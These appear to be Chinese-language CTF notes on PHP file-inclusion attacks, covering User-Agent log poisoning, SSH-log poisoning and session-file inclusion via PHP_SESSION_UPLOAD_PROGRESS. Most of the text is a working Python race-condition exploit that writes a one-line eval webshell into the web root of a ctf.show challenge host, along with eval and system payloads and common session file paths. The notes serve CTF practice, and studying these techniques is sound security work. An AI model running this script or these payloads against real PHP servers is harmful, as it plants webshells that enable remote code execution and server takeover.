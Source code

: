 ## **日志包含**
已知url上有文件包含
log日志记录ua，参考web日志路径
修改ua为phpshell,包含日志log文件
修改UA为：
1=system("ls");
1=system("tac fl0g.php");
```
/var/log/nginx/access.log
```

^
ssh登录日志文件
把登录名改php的shell
包含ssh登录日志

^
## **session临时文件包含**
php的session保存在一个目录下
session内容可控时
文件包含session文件

php的session常见存储位置，里面为键值对 字符
```
/var/lib/php5/sess_PHPSESSID
/var/lib/php7/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSED
/var/lib/php/sessions/sess_PHPSESSID
```
PHPSESSID来源F12的cookie会存储
如
```
/tmp/sess_99se2w33sddcs
```
^
**文件名和内容的控制：**
cookie中自定义新的Session ID会新初始化Session。如，设置PHPSESSID=AAA，PHP将会在服务器上创建一个文件: /tmp/sess_AAA"， 文件里存放了键值，键值由ini.get("session.upload_progress.prefix")+session.upload_progress.name值组成。
所以同时通过POST传参PHP_SESSION_UPLOAD_PROGRESS即可写入内容：
```
'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
```

^
但因为默认配置session.upload_progress.cleanup=on（意思是当文件上传结束后，php将会立即清空对应session文件中的内容）。所以，我们文件上传后，session文件内容会被立即清空。这就要利用竞争，在session文件内容被清空前进行包含利用。

^
**写入session文件同时文件包含写小马，小马jiuzhen.php密码3：**
```
import requests
import io
import threading

url='http://9a77fcb3-6f3c-4bd6-a247-07bfe6766509.challenge.ctf.show:8080/'
sessionid='ctfshow'
data={
   "1":"file_put_contents('/var/www/html/jiuzhen.php','<?php eval($_POST[3]);?>');"
}
#这个是访问/tmp/sess_ctfshow时，post传递的内容，是在网站目录下写入一句话木马。这样一旦访问成功，就可以蚁剑连接了。
def write(session):#/tmp/sess_ctfshow中写入一句话木马。
   fileBytes = io.BytesIO(b'a'*1024*50)
   while True:
      response=session.post(url,
         data={
         'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
         },
         cookies={
         'PHPSESSID':sessionid
         },
         files={
         'file':('ctfshow.jpg',fileBytes)
         }
         )

def read(session):#访问/tmp/sess_ctfshow，post传递信息，在网站目录下写入木马。
   while True:
      response=session.post(url+'?file=/tmp/sess_'+sessionid,data=data,
         cookies={
         'PHPSESSID':sessionid
         }
         )
      resposne2=session.get(url+'jiuzhen.php');#访问木马文件，如果访问到了就代表竞争成功
      if resposne2.status_code==200:
         print('++++++done++++++')
      else:
         print(resposne2.status_code)

if __name__ == '__main__':

   evnet=threading.Event()
   #写入和访问分别设置5个线程。
   with requests.session() as session:
      # 当你使用 requests.Session() 创建了一个会话对象后，这个会话对象会自动处理cookie。
      # 如果你在会话中发送了一个请求，服务器返回了cookie，那么这些cookie会被会话对象自动保存，并且在后续使用同一个会话对象发送的请求中自动携带这些cookie。
      for i in range(5):
         threading.Thread(target=write,args=(session,)).start()
      for i in range(5):
         threading.Thread(target=read,args=(session,)).start()

   evnet.set()
```

^
对于system($_GET['cmd'])函数，也可以用session，用cmd=php /tmp/sess_aaaa




